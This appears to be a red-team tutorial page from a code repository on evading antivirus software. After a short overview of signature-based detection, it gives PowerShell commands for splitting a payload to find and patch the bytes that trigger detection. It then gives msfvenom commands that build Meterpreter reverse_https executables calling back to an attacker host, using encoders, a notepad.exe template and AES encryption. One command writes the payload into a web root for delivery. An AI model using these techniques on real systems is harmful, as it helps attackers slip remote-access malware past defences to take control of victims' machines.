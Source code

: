## Antivirus overview
  Most antivirus software runs on an endpoint machine. They offer real-time scan, in which the software monitors file operations and scans a file when it is downloaded or an attempt is made to execute it. In either case, if a malicious file is detected, it is either deleted or quarantined. Most detection is signature-based, rely on MD5 or SHA-1 hashes of malicious files or on unique byte sequences discovered in known malicious files. Some software also performs heuristics or behavioral analysis that simulates execution of a scanned file.
  
  When preparing for an engagement, we ideally want to mirror the target system in our local environment to verify the effectiveness of our tools. Since, red team is super cheap, we can't build a test environment for every engagement. Therefor, we could test payload against[AntiScanMe](https://antiscan.me/). They do Not distribute result.
  
## Baby Steps to bypass AV
We can use [FindAVSig](/04FunWithAntivirus/Find-AVSignature.ps1) powershell script to spilt our payload, and scan each section of our payload individully to identify which byte are flaged by AV. The below code spilt met.exe into 10000 bytes same files. We can use windows defender or any AV product to scan them individully, to see which section get flagged. Once you find the section, break it down again with smaller interval until you find the exact byte. Once you find the byte that get flagged, you can replace it using [bytechange script](/04FunWithAntivirus/bytechange.ps1) Hint,Sometimes, modifying the byte at the exact offset will not evade the signature, but modifying the byte before or after it will. And don't forget, you want to test the payload, sometime modification will mess up the payload..
```
PS C:\nonosquare> Import-Module .\Find-AVSignature.ps1
PS C:\nonosquare> Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```
Let's say if the second 20000 byte get flagged, we can break down agin with small interval, and scan again.
```
Find-AVSignature -StartByte 10000 -EndByte 20000 -Interval 1000 -Path C:\nonosquare\met.exe -OutPath C:\nonosquare\avtest1 -Verbose -Force
```

## play with Encoder or Encryptors
Encoders generally used character substitution to replace bad characters
```
kali@kali:~$ msfvenom --list encoders

Name Rank Description
---- ---- -----------
x64/xor normal XOR Encoder
x64/xor_context normal Hostname-based Context Keyed Payload
Encoder
x64/xor_dynamic normal Dynamic key XOR Encoder
x64/zutto_dekiru manual Zutto Dekiru
x86/add_sub manual Add/Sub Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
```

Encoder Useage
```
kali@kali:~$ sudo msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Enconder using Windows application as a template, copy C:\Windows\System32\notepad.exe to Kali and use it as a template
```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

Encryption is design to replace to ineffectiveness of encoders for antivirus evasion
```
kali@kali:~$ msfvenom --list encrypt
================================================
Name
----
aes256
base64
rc4
xor
```

Let's encrypt with AES and see
```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP PORT=443 --encrypt aes256 --encrypt-key fdgdgj93traskfaswergfsdfg33 -f exe -o met64_aes.exe
```
